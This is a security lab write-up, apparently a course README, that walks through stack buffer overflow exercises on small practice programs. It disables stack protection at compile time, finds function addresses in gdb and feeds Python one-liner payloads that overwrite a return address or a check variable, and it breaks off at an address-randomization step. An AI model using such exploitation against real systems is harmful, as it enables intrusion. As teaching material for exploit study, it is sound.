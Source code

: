 # Lab 1 :

## bof1 :

![stackframe](./img/bof1.jpg)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof1 into gdb and observe secretFunc to get address

```
gdb bof1.out
```

```
disas secretFunc
```

![stackframe](./img/2.png)
<br>

#### 3. Exploiting a buffer overflow in the bof1.out program by overwriting the return address in the stack and shifting the program's control flow to the address 0x0804846b

```
echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
```

#### 4.Result :

![stackframe](./img/3.png)

<br>

## bof2 :

![stackframe](./img/4.png)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof2 into gdb then exploits a buffer overflow vulnerability, overwriting the variable check in memory. After the input string is fed into the program, the value of check is changed from 0x04030201 to 0xdeadbeef, resulting in the program printing "Yeah! You win!".

```
gdb bof2.out
```

- When the input string exceeds the size of the buf array, it will overwrite the check variable. Since check has been changed to 0xdeadbeef, the if (check == 0xdeadbeef) condition will become true, and the program will print "Yeah! You win!".

```
echo $(python -c "print('a' *40 + '\xef\xbe\xad\xde')") | ./bof2.out
```

#### 3. Result

![stackframe](./img/5.png)
<br>

## bof3 :

![stackframe](./img/6.png)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof3 into gdb and observe sup to get address

```
gdb bof3.out
```

```
disas sup
```

![stackframe](./img/9.png)
<br>

#### 3. Exploiting a buffer overflow in the bof1.out program by overwriting the return address in the stack and shifting the program's control flow to the address 0x0804846e

```
echo $(python -c "print('a' *128 + '\x6e\x84\x04\x08')") | ./bof3.out
```

#### 4.Result :

![stackframe](./img/8.png)

<br>

## ctf :

![stackframe](./img/10.png)
<br>

#### 1. compile ctf.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. Adjust the system settings to disable address randomization
